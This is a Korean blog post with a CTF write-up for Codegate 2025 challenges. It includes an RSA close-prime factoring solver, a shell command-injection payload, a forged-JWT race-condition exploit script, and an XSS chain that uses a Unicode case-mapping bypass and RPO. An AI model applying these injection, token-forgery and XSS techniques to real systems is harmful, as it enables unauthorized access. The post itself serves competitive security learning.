




## Solve
- Hello Codegate (misc)
- Captcha World (misc)
- Encrypted flag (crypto)
- initial (rev)
- Ping Tester (web)
- Token Rush (web)

## Comment
처음으로 코드게이트에 참여했다.  
5개월 전부터 코드게이트 본선 진출을 목표로 드림핵 워게임 풀이를 시작했는데 결국 고수들한테 밀려버렸다.  
체감상 지금까지 코드게이트 문제들중에 웹이 제일 어려웠던거 같다  
끝나기 4시간 전까지 스코어보드에 내 닉네임이 나오고 있었기에 기대감을 품고 있긴 했는데, 역시.. 후반에 쭉 밀려서 31등까지 떨어졌다.

하지만 풀이자가 얼마없던 Token rush를 풀었고, Masquerade도 어느 정도 접근했었기 때문에 확실히 성장한 게 느껴져서 좋았다.

몇 달 뒤 있는 CCE는 본선 가고싶다

## Write-Up
### Hello Codegate

`codegate2025{65782695e16255e3ef8517a1bfb059f0}`

### Captcha World

1분 안에 캡챠 10개 풀면 플래그 준다.
알파벳 O랑 숫자 0 구별하는게 어려워서 좀 애먹었다.
`codegate2025{052ddb9aed355bb13db11f6178c9fad4856003a7aa1e3c4c119317093f6da52895f98ba40b30034583e5859ddc568e}`

### Encrypted flag
```python
from Crypto.Util.number import bytes_to_long, getPrime
from sympy import nextprime
import gmpy2

p = getPrime(512)
q = nextprime(p)

n = p * q
e = 65537

flag = "codegate2025{FAKE_FLAG}"
phi = (p - 1) * (q - 1)

d = gmpy2.invert(e, phi)

m = bytes_to_long(flag.encode())
c = pow(m, e, n)

print(f"n: {n}")
print(f"e: {e}")
print("Encrypted flag:", c)
```

RSA 암호화를 사용해 플래그를 암호화하고, n, e, encrypted flag를 주고 있다.  
nextprime() 함수를 사용해 p와 가까운 q를 생성하는 방식이기에 취약하지 않을까? 라는 의심이 들었고  
이를 바탕으로 gpt한테 복호화 코드를 짜달라 해서 돌렸다. p와 q를 찾고 플래그를 얻어낼 수 있었다.


```python
from Crypto.Util.number import long_to_bytes
import gmpy2

n = 54756668623799501273661800933882720939597900879404357288428999230135977601404008182853528728891571108755011292680747299434740465591780820742049958146587060456010412555357258580332452401727868163734930952912198058084689974208638547280827744839358100210581026805806202017050750775163530268755846782825700533559
e = 65537
c = 7728462678531582833823897705285786444161591728459008932472145620845644046450565339835113761143563943610957661838221298240392904711373063097593852621109599751303613112679036572669474191827826084312984251873831287143585154570193022386338846894677372327190250188401045072251858178782348567776180411588467032159

p = gmpy2.isqrt(n)
print(p)
while n % p != 0:
    p = gmpy2.next_prime(p)
q = n // p
print(q)

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)

print(long_to_bytes(m).decode())
```
`codegate2025{Cl0se_p_q_0f_RSA_Is_Vu1n3rabIe}`

### Initial
문제 바이너리를 못 찾아 자세한 풀이는 쓰지 못했다

기억하기로는 두 개의 배열이 주어지는데

두 번째 배열을 기반으로 수도코드에 나와있던 대로 역회전 후 새로운 배열을 만들어 XOR 했던 거 같다

`codegate2025{Hell0_W0r1d_R3V_^^}`

### Ping Tester
```python
@app.route('/ping', methods=['GET'])
def ping():
    ip = request.args.get('ip')
    if ip:
        result = subprocess.run(f"ping -c 3 {ip}", shell=True, capture_output=True, text=True)
        return render_template('ping.html', result=result.stdout)
    else:
        return render_template('ping.html', message="Please provide IP address.")
```

간단한 커맨드 인젝션 문제이다
`1.1.1.1 && cat flag`으로 플래그 읽어와주면 된다.

문제서버가 닫혀서 플래그는 적지 못했다.

### Token Rush
```js
const express = require("express");
const cookieParser = require("cookie-parser");
const crypto = require('node:crypto');
const fs = require("fs");
const path = require("path");
const b64Lib = require("base64-arraybuffer");
const flag = "codegate2025{FAKE_FLAG}";
const PrivateKey = `FAKE_PRIVATE_KEY`;
const PublicKey = `63c9b8f6cc06d91f1786aa3399120957f2f4565892a6763a266d54146e6d4af9`;
const tokenDir = path.join(__dirname, "token");
const app = express();
app.use(express.json());
app.use(cookieParser());
app.set("view engine", "ejs");
Object.freeze(Object.prototype);
fs.promises.mkdir(tokenDir, { recursive: true });

let db = {
    admin: { uid: "87c869e7295663f2c0251fc31150d0e3",
            pw: crypto.randomBytes(32).toString('hex'),
            name: "administrator"
        }
};

let temporaryFileName = path.join(tokenDir, crypto.randomBytes(32).toString('hex'));

const gen_hash = async () => {
    let data = "";
    for (var i = 0; i < 1234; i++) {
        data += crypto.randomBytes(1234).toString('hex')[0];
    }
    const hash = crypto.createHash('sha256').update(data);
    return hash.digest('hex').slice(0, 32);
};

const gen_JWT = async (alg, userId, key) => {
    const strEncoder = new TextEncoder();
    let headerData = urlsafe(b64Lib.encode(strEncoder.encode(JSON.stringify({ alg: alg, typ: "JWT" }))));
    let payload = urlsafe(b64Lib.encode(strEncoder.encode(JSON.stringify({ uid: userId }))));
    if (alg == "ES256") {
        let baseKey = await crypto.subtle.importKey("pkcs8", b64Lib.decode(key), { name: "ECDSA", namedCurve: "P-256" }, true, ["sign"]);
        let sig = await crypto.subtle.sign({ name: "ECDSA", hash: "SHA-256" }, baseKey, new TextEncoder().encode(`${headerData}.${payload}`));
        return `${headerData}.${payload}.${urlsafe(b64Lib.encode(new Uint8Array(sig)))}`;
    }
};

const read_JWT = async (token) => {
    const decoder = new TextDecoder();
    let payload = token.split(".")[1];
    return JSON.parse(decoder.decode(b64Lib.decode(decodeurlsafe(payload))).replaceAll('\x00', ''));
};

const urlsafe = (base) => base.replace(/\+/g, "-").replace(/\//g, "_").replace(/=+$/, "");
const decodeurlsafe = (dat) => dat.replace(/-/g, "+").replace(/_/g, "/");

app.post('/', () => {});

app.post("/sign_in", async (req, res) => {
    try {
        const { id, pw } = req.body;
        if (!db[id] || db[id]["pw"] !== pw) {
            res.json({ message: "Invalid credentials" });
            return;
        }
        let token = await gen_JWT("ES256", db[id]["uid"], PrivateKey);
        res.cookie("check", token, { maxAge: 100 }).json({ message: "Success" });
    } catch (a) {
        res.json({ message: "Failed" });
    }
});

app.post("/sign_up", async (req, res) => {
    try {
        const { id, data } = req.body;
        if (id.toLowerCase() === "administrator" || db[id]) {
            res.json({ message: "Unallowed key" });
            return;
        }
        db[id] = { ...data, uid: crypto.randomBytes(32).toString('hex') };
        res.json({ message: "Success" });
    } catch (a) {
        res.json({ message: "Failed" });
    }
});

app.post("/2fa", async (req, res) => {
    try {
        const token = req.cookies.check ?? "";
        const data = await read_JWT(token, PublicKey);
        if (db.admin.uid !== data.uid) {
            res.json({ message: "Permission denied" });
            return;
        }
        let rand_data = await gen_hash();
        await fs.promises.writeFile(temporaryFileName, rand_data);
        res.json({ message: "Success" });
    } catch (a) {
        res.json({ message: "Unauthorized" });
    }
});

app.post("/auth", async (req, res) => {
    try {
        const token = req.cookies.check ?? "";
        const data = await read_JWT(token, PublicKey);
        if (db.admin.uid !== data.uid) {
            res.json({ message: "Permission denied" });
            return;
        }
        const { data: input } = req.body;
        const storedData = await fs.promises.readFile(temporaryFileName, "utf-8");
        if (input === storedData) {
            res.json({ flag });
        } else {
            res.json({ message: "Token Error" });
        }
    } catch (a) {
        res.json({ message: "Internal Error" });
    }
});

app.post("/data", (req, res) => {
    res.status(req.body.auth_key ? 200 : 400).send(req.body.auth_key ? 'Success' : 'Failed');
});

app.listen(1234);
```

먼저 어드민 계정을 얻어야하는데
```js
let payload = urlsafe(b64Lib.encode(strEncoder.encode(JSON.stringify({ uid: userId }))));
return `${headerData}.${payload}.${urlsafe(b64Lib.encode(new Uint8Array(sig)))}`;

...

const read_JWT = async (token) => {
    const decoder = new TextDecoder();
    let payload = token.split(".")[1];
    return JSON.parse(decoder.decode(b64Lib.decode(decodeurlsafe(payload))).replaceAll('\x00', ''));
};
```

`read_JWT()` 함수는 인자로 token 하나만을 받지만 위 코드에서는 두번째 인자에 PublicKey를 보낸다.
즉, 애초에 PublicKey 검증 자체를 안한다는 것이다 (검증한다고 하더라도 PublicKey는 코드에 공개되어있다)

`{ uid: "admin" }` 넣고 base64 인코딩해서 어드민 토큰을 생성할 수 있다.

나머지 코드를 분석해보자.

`/auth`에서는 해시 값과 내 입력이 동일하다면 플래그를 준다.
하지만 저 해시값을 예측하는 건 불가능하다.

```js
const storedData = await fs.promises.readFile(temporaryFileName, "utf-8");
```
위 코드를 봤을 때 `await fs.promises`를 사용해파일을 비동기적으로 읽는다는 걸 알 수 있고 Race Condition이 가능해진다는걸 알 수 있다.

```python
import threading
import requests

def send_2fa():
    requests.post("http://15.165.38.117:1234/2fa", cookies={"check": "test.eyJ1aWQiOiI4N2M4NjllNzI5NTY2M2YyYzAyNTFmYzMxMTUwZDBlMyJ9"})

def read_auth():
    response = requests.post("http://15.165.38.117:1234/auth", cookies={"check": "test.eyJ1aWQiOiI4N2M4NjllNzI5NTY2M2YyYzAyNTFmYzMxMTUwZDBlMyJ9"}, json={"data": ""})
    print(response.text)

threading.Thread(target=send_2fa).start()
threading.Thread(target=read_auth).start()
```

익스코드는 위와 같다
2fa를 보낸 후 파일에 해시값이 새로 쓰이기 전까지 잠깐의 텀이 생긴다
그 사이에 auth로 빈 값 ("")과 비교해 주면 플래그를 얻을 수 있다

`codegate2025{8b2c743e13f766b30c9c1e72e8a6595a651321da1c01eda7776fbd8e209ef9feace5a162237e696ea4b58a7bdf0b88dfb7f25c5ac76f4e12a4c4538d438fcdbf}`

### Masquerade
업솔빙 때린 문제인데 인상깊어서 풀진 못했지만 적어본다. 못 푼 내가 할 말은 아니지만 주니어부 0솔까지 갈 문제는 아니었다고 생각한다



비밀번호를 입력하면 uuid 하나를 만들어주는데 로그인 해보면 MEMBER 역할이 기본적으로 할당 되어있다.

```js
const puppeteer = require('puppeteer');
const { generateToken } = require('./jwt')

const delay = (ms) => new Promise(resolve => setTimeout(resolve, ms));

const viewUrl = async (post_id) => {
    const token = generateToken({ uuid: "codegate2025{test_flag}", role: "ADMIN", hasPerm: true })

    const cookies = [{ "name": "jwt", "value": token, "domain": "localhost" }];

    const browser = await puppeteer.launch({
        executablePath: '/usr/bin/chromium',
        args: ["--no-sandbox"]
    });

    let result = true;

    try {
        await browser.setCookie(...cookies);

        const page = await browser.newPage();

        await page.goto(`http://localhost:3000/post/${post_id}`, { timeout: 3000, waitUntil: "domcontentloaded" });

        await delay(1000);

        const button = await page.$('#delete');
        await button.click();

        await delay(1000);
    } catch (error) {
        console.error("An Error occurred:", error);
        result = false;
    } finally {
        await browser.close();
    }

    return result;
};

module.exports = { viewUrl };
```
```js
app.use((req, res, next) => {
  const nonce = crypto.randomBytes(16).toString('hex');

  res.setHeader("X-Frame-Options", "deny");

  if (req.path.startsWith('/admin')) {
    res.setHeader("Content-Security-Policy", `default-src 'self'; script-src 'self' 'unsafe-inline'`);
  } else {
    res.setHeader("Content-Security-Policy", `default-src 'self'; script-src 'nonce-${nonce}'`);
  }

  res.locals.nonce = nonce;

  next();
});
```

코드에 봇이 있는걸로 봐서는 제공된 게시판에서 XSS를 일으켜야한다는걸 알 수 있지만 기본적으로 csp가 빡세게 걸려있다.
따라서 /admin 경로에서 xss를 유도해야한다는걸 알 수 있다.

차근차근 분석해보자

```js
const role_list = ["ADMIN", "MEMBER", "INSPECTOR", "DEV", "BANNED"];

function checkRole(role) {
    const regex = /^(ADMIN|INSPECTOR)$/i;
    return regex.test(role);
}

const addUser = (password) => {
    const uuid = uuidv4()

    users.set(uuid, { password, role: "MEMBER", hasPerm: false });

    return uuid;
};

const getUser = (uuid) => {
    return users.get(uuid);
};

const getUsers = () => {
    console.log(users);
    return 1;
};

const setRole = (uuid, input) => {
    const user = getUser(uuid);

    if (checkRole(input)) return false;
    if (!role_list.includes(input.toUpperCase())) return false;

    users.set(uuid, { ...user, role: input.toUpperCase() });

    const updated = getUser(uuid);

    const payload = { uuid, ...updated }

    delete payload.password;

    const token = generateToken(payload);

    return token;
};

const setPerm = (uuid, input) => {
    const user = getUser(uuid);
    console.log(uuid, { ...user, hasPerm: input })

    console.log(user);

    users.set(uuid, { ...user, hasPerm: input });

    return true;
}
```

ADMIN, MEMBER, INSPECTOR, DEV, BANNED 역할이 존재한다
게시판 기능은 ADMIN만, 봇에게 report는 INSPECTOR만 할 수 있다.

입력한 역할이 ADMIN이나 INSPECTOR면 false를 리턴한다.
하지만 `toUpperCase()` 함수를 사용해 비교하고 있으므로 [Case Mapping Collision](https://lovflag.tistory.com/58)이 발생한다.

ı(U+0131)을 활용해 입력하면 필터링을 우회하고 두 역할을 얻을 수 있다.



어드민 권한 탈취 후 패널에서 쓰기 권한을 켜주면 게시판에 글을 쓸 수 있게된다.

(권한 바꾼 후 재로그인해야 권한이 정상적으로 적용된다. 이거 때문에 삽질 좀 했다)

```js
const button = await page.$('#delete');
await button.click();
```

봇이 `#delete`를 클릭하는걸 활용해 XSS 할 수 있는데 클라이언트 단에서 dompurify가 막고 있다.

bypass하기 위해 방법을 찾던 중 로드해오는 js 중에 난독화 된 바이너리를 발견했고 복호화한 결과 아래와 같은 코드가 나왔다

```js
if (!title && !content) {
    post_content.innerHTML = "Usage: ?title=a&content=b";
} else {
    try {
        post_title.innerHTML = DOMPurify.sanitize(title);
        post_content.innerHTML = DOMPurify.sanitize(content);
    } catch {
        post_title.innerHTML = title;
        post_content.innerHTML = content;
    }
}
```

오류가 나면 그냥 title이랑 content를 그대로 innerHTML 해서 문제없이 xss가 가능해진다.

dompurify를 상대경로로 불러오고 있기에, `/admin/test/?title=a&content=(XSS_PAYLOAD)`로 Open Redirect해서 RPO 터트려주면 된다.

정리하자면 Case mapping collision + RPO + XSS였다.

```html
<area id="conf"> <area id="conf" name="deleteUrl" href="/admin/test/?title=test&content=">
```
- 출제자 payload - 문제시 삭제하겠습니다

주니어부 0솔까지 갈 정도로 어려웠던 문제는 아니었던거 같은데 0솔인건 좀 의문이다

확실히 CSP랑 dompurify에 대한 지식이 거의 없었어서 문제의도 파악이 어려웠던거 같다. 공부해야겠다